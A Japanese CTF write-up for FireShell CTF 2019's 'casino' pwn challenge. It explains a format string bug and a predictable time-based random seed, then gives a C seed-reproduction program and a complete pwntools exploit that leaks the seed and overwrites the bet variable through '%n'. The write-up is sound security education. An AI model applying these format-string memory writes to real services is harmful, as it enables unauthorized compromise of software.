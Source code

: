 # [pwn 82pts] casino - FireShell CTF 2019
今回は64ビットで、RELROやSSPが有効になっています。
```
$ checksec casino
[*] 'casino'
    Arch:       64 bits (little endian)
    NX:         NX enabled
    SSP:        SSP enabled (Canary found)
    RELRO:      Full RELRO
    PIE:        PIE disabled
```
さて、起動するとtime関数を元にseed値が生成されるのですが、最後に右に3ビットシフトしているので十数秒に1回だけseed値は変わります。
次に名前入力がありますが、ここでFormat String Bugがあります。
続いてseedを元にsrandが呼ばれ、さらに乱数が生成されます。
生成された乱数を当てれば変数betに応じてお金が増えて、これを100回繰り返せばOKです。
OK回繰り返したときお金が100より大きければflag.txtの中身が出力されます。

ということで、FSBでbetの中身を変更してやればよさそうです。
まずはサーバーと同じ乱数を再現するためにCのプログラムを作りました。
```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char** argv)
{
  int i;
  if (argc < 3) {
    return 0;
  }
  srand(atoi(argv[1]));
  for(i = 0; i < atoi(argv[2]) - 1; i++) {
    rand();
  }
  printf("%d", rand());
  return 0;
}
```
正しいseedを入力すれば正解の乱数が得られます。
seedはあまり変わらないので、1回目の接続でFSBを利用して読み出します。
そして、2回目の接続で取得したseed値を利用して乱数を予測します。
注意しないといけないのは、1回目にseedをリークした際からsrandまでの間にseedにbetが加算されることです。
betはもともと1なのですが、今回はbetを3にしたので1回目に読み出したseedに3を足す必要があります。
```python
from pwn import *
import commands

host, port = "challs.fireshellsecurity.team", 31006

# Round 1
payload = "%8$p"
sock = remote(host, port)
sock.recvuntil("name? ")
sock.sendline(payload)
sock.recvuntil("Welcome ")
seed = int(sock.recvline().strip(), 16) + 3 # point!
print("[+] Seed = " + hex(seed))
sock.close()

# Round 2
payload = "AAA%11$n"
payload += p64(0x602020)
sock = remote(host, port)
#_ = raw_input()
sock.recvuntil("name? ")
sock.send(payload)

for cnt in range(1, 100):
    random = int(commands.getoutput("./a.out {0} {1}".format(seed, cnt)))
    print("[+] Round: {0}".format(cnt))
    sock.recvuntil("number: ")
    sock.sendline(str(random))
    if 'Sorry!' in sock.recvline():
        print("[-] Something is wrong......")
        exit(1)

print(sock.recv(4096))
print(sock.recv(4096))
```

# 感想
ひっかかりやすい点はあるものの簡単な部類だと思います。
